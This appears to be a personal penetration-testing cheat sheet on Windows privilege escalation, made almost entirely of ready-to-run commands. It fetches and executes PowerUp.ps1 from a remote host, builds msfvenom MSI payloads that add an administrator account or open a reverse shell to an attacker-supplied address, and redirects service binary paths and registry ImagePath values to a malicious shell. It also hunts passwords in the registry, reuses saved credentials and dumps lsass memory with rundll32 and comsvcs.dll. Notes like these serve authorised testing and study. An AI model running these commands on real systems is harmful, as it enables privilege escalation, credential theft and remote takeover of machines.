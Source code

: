 ## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
# Services
## Service
- Check all services with `sc query`
```cmd
> sc.exe query state=all
```
- Query configuration of a service
```powershell
PS > sc qc <service>
```
- Check access
## Access Check 
- Check `<user>` access to a particular  `service`
```powershell
PS > accesschk /accepteula -uwcqv <user> <service>
```
## Service Permissions
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
# Dangerous Settings
## #AlwaysInstallElevated 
Allows to install/run executable with elevated privileges. 
- Create super-user
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi 
```
>**!! NOTE:** Using the msiexec the uac wont be prompted
- Create elevated reverse-shell
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```
Install it on the vulnerable system:
```powershell
PS > msiexec /quiet /qn /i C:\path\to\executable.msi
```
## #service_change_config 
If the service runs with `SYSTEM` privileges and we can change its config, change the binary path of the service to our malicious reverse shell and restart it.
```powershell
> sc config <service> binpath= "\"C:\Path\to\rev-shell""
> net start <service>
```
## #unquoted-service-path 
If the service runs with `SYSTEM` privileges and its path is unquoted, check folder permissions to create a script at the vulnerable path.
### Tools
1. [[AccessChk]]
2. [[ICACLS]]
## Registry Permission
If the registry permissions allow to modify, change service path from here.
```powershell
> accesschk /accepteula -uvwqk HKLM\path\to\service
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

> reg add HKLM\path\to\service /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\shell.exe /f
```
## Password in Registry
The registry can be searched for keys and values that contain the word "password"
```powershell
PS > reg query HKLM /f password /t REG_SZ /s
```
## Saved Credentials
List any saved credentials and use them to run script:
```powershell
PS > cmdkey /list
PS > runas /savecred /user:<user> C:\path\to\script
```

# Local System
If not connected to domain, extract #SAM-registry-hive with [[reg.exe]] 
>Note: Need CMD with admin privilege.
![[reg.exe#Save registry]]

## Dumping LSA Secrets/SAM Remotely  ![[CrackMapExec#Dump LSA/SAM Remotely]] 
## Dumping #lsass Process Memory
### Using Task Manager (GUI)
"Create Dump File" of Local Security Authority Process (LSAP) from Task Manager. It gets saved in `C:\Users\<user>\AppData\Local\Temp`. 

`Task Manager` > `"Processes" tab` > `"Local Security Authority" Process` > `Select Create dump file`
### Using `rundll32.exe`
- On CMD:
```powershell
PS > tasklist /svc
```
- On Powershell: 
```PowerShell
PS > Get-Process lsass
PS > rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> <destination> full
```
#### Tools
- [[pypykatz]]